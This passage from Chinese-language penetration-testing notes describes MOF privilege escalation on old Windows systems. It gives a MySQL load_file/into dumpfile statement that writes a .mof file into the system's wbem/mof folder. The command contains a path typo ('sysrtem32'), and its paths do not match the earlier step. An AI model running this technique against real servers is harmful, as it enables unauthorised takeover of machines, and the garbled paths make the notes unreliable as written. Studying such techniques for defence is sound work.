 > >    ![image-20200607133433523](提权和内网渗透/image-20200607133433523.png)
> >    
> >    ![image-20200607133349429](提权和内网渗透/image-20200607133349429.png)
>
> ### mof提权(只适合在低版本的win中 <2003)
>
> > 1. 找到可写目录 一般就是木马目录
> >
> >    > 一般`c:/windows/system32/mof`
> >
> > 2. 执行以下sql语句
> >
> >    > `Select load_file(‘C:/wmpub/nullevt.mof’)into dumpfile’c:/windows/sysrtem32/wbem/mof/nullevt.mof’`
>
> 
